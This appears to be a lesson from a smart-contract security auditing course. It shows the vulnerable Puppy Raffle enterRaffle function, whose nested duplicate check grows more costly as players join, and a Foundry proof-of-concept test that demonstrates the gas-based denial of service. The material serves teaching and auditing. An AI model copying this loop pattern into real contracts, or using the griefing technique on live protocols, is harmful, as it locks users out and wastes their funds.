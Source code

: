 ```yaml
---
title: DoS - PoC (Proof of Code)
---
```


_Follow along with this video:_

---

### Back to Puppy Raffle

Now that we possess a little more context and understanding of what a `Denial of Service` attack is, and what it can mean for a protocol, let's return to Puppy Raffle and remind ourselves where we began.

```js
/// @notice this is how players enter the raffle
/// @notice they have to pay the entrance fee * the number of players
/// @notice duplicate entrants are not allowed
/// @param newPlayers the list of players to enter the raffle
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```

This should look very familiar to us by now:

```js
// Check for duplicates
// @audit Possible DoS
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```

At this point I would add this to my `notes.md`, you may want to come back to this later and continue assessing the code back, but let's go ahead and prove this finding now.

### Proof of Code

If the protocol has an existing test suite, it's often easier to add our tests to it than write things from scratch.

Run `forge test` to make sure the test suite is working correctly so far!

There are lots of useful parts of `PuppyRaffle.t.sol` we can use for our PoC.

Now, here's your challenge. I want you to try and write the `Proof of Code` yourself. Build those skills by trying to write a test function that shows the potential `Denial of Service` we've uncovered.

<details>
<summary> The Proof of Code </summary>

Great! Now that you've _100%_ tried this yourself, let's go through it together.

I would start by harvesting the existing `testCanEnterRaffle` function. This is a great boilerplate for what we're trying to show.

```js
function testCanEnterRaffle() public {
    address[] memory players = new address[](1);
    players[0] = playerOne;
    puppyRaffle.enterRaffle{value: entranceFee}(players);
    assertEq(puppyRaffle.players(0), playerOne);
}
```

Let's repurpose this!

```js
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // Creates 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for(uint i = 0; i < players.length; i++){
        players[i] = address(i);
    }

    // Gas calculations for first 100 players
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);
}
```

Running the command `forge test --mt testDenialOfService -vvv` should give us an output like this:

![dos-poc1](/security-section-4/13-dos-poc/dos-poc1.png)

Now let's do the same thing for the second 100 players! We'll need to add something like this to our test.

```js
// Creates another array of 100 players
address[] memory playersTwo = new address[](playersNum);
for (uint256 i = 0; i < playersTwo.length; i++) {
    playersTwo[i] = address(i + playersNum);
}

// Gas calculations for second 100 players
uint256 gasStartTwo = gasleft();
puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
uint256 gasEndTwo = gasleft();
uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
console.log("Gas cost of the second 100 players: ", gasUsedSecond);

assert(gasUsedFirst < gasUsedSecond);
```

If we rerun our test we can see.. Our test passes! The second 100 players are paying _a LOT_ more and are at a significant disadvantage!

![dos-poc2](/security-section-4/13-dos-poc/dos-poc2.png)

</details>


### Wrap Up

That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report.

Let's do that now!

